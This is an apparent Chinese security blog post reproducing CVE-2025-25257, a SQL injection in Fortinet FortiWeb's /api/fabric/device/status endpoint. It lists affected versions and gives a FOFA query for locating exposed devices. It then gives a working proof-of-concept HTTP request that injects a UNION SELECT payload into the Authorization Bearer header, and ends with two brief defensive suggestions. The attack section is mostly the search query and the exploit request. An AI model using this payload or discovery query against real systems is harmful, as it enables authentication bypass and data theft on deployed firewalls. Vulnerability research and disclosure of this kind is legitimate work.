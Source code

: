 #  【已复现】飞塔Authorization SQL注入CVE-2025-25257  
原创 zz  星络安全实验室   2025-07-17 06:14  
  
<table><tbody><tr><td data-colwidth="576"><section><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></section></td></tr></tbody></table>  
漏洞详情：  
  
该漏洞存在于Fortinet FortiWeb设备的/api/fabric/device/status  
接口中，具体表现为：  
1. 注射点  
  
： Authorizatio  
1. 攻击方式  
：攻击者可构造恶意SQL查询注入认证头部  
1. 影响范围  
：可能导致身份验证绕过、敏感数据泄露或系统完全控制  
**影响版本:**  
  
7.0.0 <= FortiWeb <= 7.0.10  
  
7.2.0 <= FortiWeb <= 7.2.10  
  
7.4.0 <= FortiWeb <= 7.4.7  
  
7.6.0 <= FortiWeb <= 7.6.3  
  
**复现过程：**  
  
fofa：  
```
body="FortiWeb" && body="app.min.js"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVdvzQ1yNF1iagREs5Q0ibX5WYI2yXnVhWTtQkicia6HDGS3VQp6jNBpfQqBEz7FiaJFas7lavt06rqJV1g/640?wx_fmt=png&from=appmsg "")  
  
  
poc：  
```
GET /api/fabric/device/status HTTP/1.1
Host: xx
Authorization: Bearer 11111' UNION SELECT version(),2,3-- -
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVdvzQ1yNF1iagREs5Q0ibX5WYJV1BYWZQX5JEewHhnncJ2hMRSaUjI8aZCwtTE86BbBDoAUZictngYcg/640?wx_fmt=png&from=appmsg "")  
  
防御建议：  
1. 立即限制对/api/fabric/device/status  
接口的访问  
1. 在FortiWeb上添加针对Authorization头的严格输入验证规则  
